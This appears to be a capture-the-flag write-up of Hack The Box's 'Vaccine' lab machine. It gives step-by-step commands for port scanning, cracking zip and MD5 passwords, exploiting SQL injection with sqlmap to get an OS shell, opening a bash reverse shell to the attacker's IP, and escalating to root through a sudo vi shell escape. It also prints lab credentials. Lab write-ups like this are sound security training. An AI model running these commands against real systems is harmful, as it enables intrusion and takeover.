# Vaccine
The 3rd box of the Starting Point - explores the concepts of cracking passwords/hashes and SQL Injection.

**Tools: nmap, zip2john, john, hash-identifier, unzip, sqlmap.**

*This box doesn't have a user flag, only the root flag.*

We begin with the nmap scan: 
> ports=$(nmap --min-rate=1000 -T4 -p- 10.10.10.46 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)  
> nmap -sC -sV -T4 -p$ports 10.10.10.46 -oG vaccine_scan



Ports 21, 22 and 80 are open. Using the credentials gathered in the previous box 'Oopsie', we can access the ftp server:
> ftp 10.10.10.46  
> ftpuser  
> mc@F1l3ZilL4



There's a 'backup.zip' file that we can download, but we're unable to extract it because it is password-protected.   
We can use the tool zip2john to extract its hash and then john to crack it:
> zip2john backup.zip > file_hash  
> john file_hash -w=/usr/share/wordlists/rockyou.txt



We are able to find the password for the zip file:  
741852963  
Next up, we can unzip it to see its contents: 
> unzip backup.zip

Reading the 'index.php' reveals us a hardcoded password hash.



Using hash-identifier we can see that it is a MD5 hash, so we can use [Crackstation](https://crackstation.net/) to get the clear-text password.
> 2cb42f8734ea607eefed3b70af13bbd3  
> qwerty789



Accessing the webpage for this IP we can see a login form, and with the just-found password we can attempt to login using some common usernames, so we're able to access using 'admin'.



Some quick tests reveal that this page might be vulnerable to SQL Injection (SQLi).



We can use sqlmap to test this and then exploit it. First we need to copy our session cookie from the browser dev-tools (F12), storage tab:



> sqlmap -u "http://10.10.10.46/dashboard.php?search=" --cookie="PHPSESSID=\<yourSessionID>" 

The above command will reveal that the target is vulnerable to SQLi. So we can run the command below to gain a shell: 
> sqlmap -u "http://10.10.10.46/dashboard.php?search=" --cookie="PHPSESSID=\<yourSessionID>" --os-shell



Now in our box we can start a netcat listening session, then start a reverse shell in the target box:
> nc -vnlp 9003
> bash -c 'bash -i >& /dev/tcp/\<youtTun0IP>/9003 0>&1'



As mentioned before, there's no 'user' flag in this box, so the next step is to find a way to escalate our privileges to grab the 'root' flag.  
Now we need to perform some enumeration. At the '/var/www/html' we can find the 'dashboard.php' file, and once again we're able to find some hardcoded sensitive information for our user 'postgres':
> P@s5w0rd!



Now we need to spawn a fully interactive shell to check the user's permissions, prividing the password we've just found:
> SHELL=/bin/bash script -q /dev/null  
> sudo -l



Sudo -l shows us that we can run '/bin/vi /etc/postgresql/11/main/pg_hba.conf' with sudo permissions: 
> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

Once inside Vi we can run the following command to exploit the elevated privileges: 
> Press Esc then  
> :!/bin/bash

And then you can read the root.txt file: 
> cat /root/root.txt



**Thats it, another box pwned!**  
Thanks for reading and keep hacking!
